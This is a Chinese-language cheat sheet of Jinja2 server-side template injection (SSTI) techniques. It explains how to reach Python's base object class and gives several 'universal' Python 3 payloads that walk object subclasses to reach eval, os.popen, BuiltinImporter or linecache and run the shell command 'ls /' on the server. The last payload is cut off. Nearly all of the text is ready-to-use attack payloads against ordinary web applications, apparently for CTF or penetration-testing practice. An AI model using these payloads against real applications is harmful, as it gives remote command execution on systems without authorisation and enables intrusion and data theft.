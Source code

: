 ## Python模板注入绕过技巧

## Jinja SSTI 备忘录

#### 基类

```python
# bases 会返回元组形式 
>>> __bases__[0] == __base__
#因为 mro 会显示继承顺序，而所有类最终都继承自一个特殊的基类 object，所以 __mro__[-1] 总是能拿到基类
>>> __base__*N == __mro__[-1] 

[].__class__.__base__
''.__class__.__base__
().__class__.__base__
{}.__class__.__base__

request.__class__.__mro__[-1] # 需要导入过 request 模块
dict.__class__.__mro__[-1]
config.__class__.__base__.__base__
config.__class__.__base__.__base__
```

#### ==通用 payload ( Python3 )==

```python
# 命令执行_eval
 {% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'eval' in x.__init__.__globals__['__builtins__']['eval'].__name__ %}
        {{ x.__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()') }}
    {% endif %}
{% endfor %}

# 命令执行_os.py
{% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'os' in x.__init__.__globals__ %}
        {{ x.__init__.__globals__['os'].popen('ls /').read() }}
    {% endif %}
{% endfor %}

# 命令执行_popen
{% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'popen' in x.__init__.__globals__ %}
        {{ x.__init__.__globals__['popen']('ls /').read() }}
    {% endif %}
{% endfor %}

# 命令执行__frozen_importlib.BuiltinImporter
{% for x in [].__class__.__base__.__subclasses__() %}
    {% if 'BuiltinImporter' in x.__name__ %}
        {{ x["load_module"]("os")["popen"]("ls /").read() }}
    {% endif %}
{% endfor %}

# 命令执行_linecache
{% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'linecache' in x.__init__.__globals__ %}
        {{ x.__init__.__globals__['linecache']['os'].popen('ls /').read() }}
```